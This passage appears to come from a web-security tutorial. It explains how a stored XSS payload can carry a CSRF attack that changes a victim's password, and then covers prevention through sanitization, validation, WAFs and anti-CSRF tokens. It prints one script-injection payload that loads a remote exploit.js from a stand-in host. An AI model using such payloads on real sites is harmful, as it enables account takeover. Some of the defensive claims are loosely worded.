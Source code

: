 A common *CSRF* attack to gain higher privileged access to a web application is to craft a *JavaScript* payload that automatically changes the victim's password to the value set by the attacker. Once the victim views the payload on the vulnerable page (e.g., a malicious comment containing the *JavaScript CSRF* payload), the *JavaScript* code would execute automatically. It would use the victim's logged-in session to change their password. Once that is done, the attacker can log in to the victim's account and control it.

*CSRF* can also be leveraged to attack admins and gain access to their accounts. Admins usually have access to sensitive functions, which can sometimes be used to attack and gain control over the back-end server (depending on the functionality provided to admins within a given web application). Following this example, instead of using *JavaScript* code that would return the session cookie, we would load a remote *.js* (*JavaScript*) file, as follows:

```html
"><script src=//www.example.com/exploit.js></script>
```

The *exploit.js* file would contain the malicious *JavaScript* code that changes the user's password. Developing the *exploit.js* in this case requires knowledge of this web application's password changing procedure and *APIs*. The attacker would need to create *JavaScript* code that would replicate the desired functionality and automatically carry it out (i.e., *JavaScript* code that changes our password for this specific web application).

---
## **CSRF Prevention**
---
Though there should be measures on the back end to detect and filter user input, it is also always important to filter and sanitize user input on the front end before it reaches the back end, and especially if this code may be displayed directly on the client-side without communicating with the back end. Two main controls must be applied when accepting user input:

|     Type     |                                                 Description                                                 |
| :----------: | :---------------------------------------------------------------------------------------------------------: |
| Sanitization | Removing special characters and non-standard characters from user input before displaying it or storing it. |
|  Validation  | Ensuring that submitted user input matches the expected format (i.e., submitted email matched email format) |

Furthermore, it is also important to sanitize displayed output and clear any special/non-standard characters. In case an attacker manages to bypass front end and back end sanitization and validation filters, it will still not cause any harm on the front end.

Once we sanitize and/or validate user input and displayed output, we should be able to prevent attacks like *HTML Injection, XSS, or CSRF*. Another solution would be to implement a [web application firewall (WAF)](https://en.wikipedia.org/wiki/Web_application_firewall), which should help to prevent injection attempts automatically. However, it should be noted that WAF solutions can potentially be bypassed, so developers should follow coding best practices and not merely rely on an appliance to detect/block attacks.

As for *CSRF*, many modern browsers have built-in anti-CSRF measures, which prevent automatically executing *JavaScript* code. Furthermore, many modern web applications have anti-CSRF measures, including certain HTTP headers and flags that can prevent automated requests (i.e., *anti-CSRF* token, or *http-only/X-XSS-Protection*). Certain other measures can be taken from a functional level, like requiring the user to input their password before changing it. Many of these security measures can be bypassed, and therefore these types of vulnerabilities can still pose a major threat to the users of a web application. This is why these precautions should only be relied upon as a secondary measure, and developers should always ensure that their code is not vulnerable to any of these attacks.
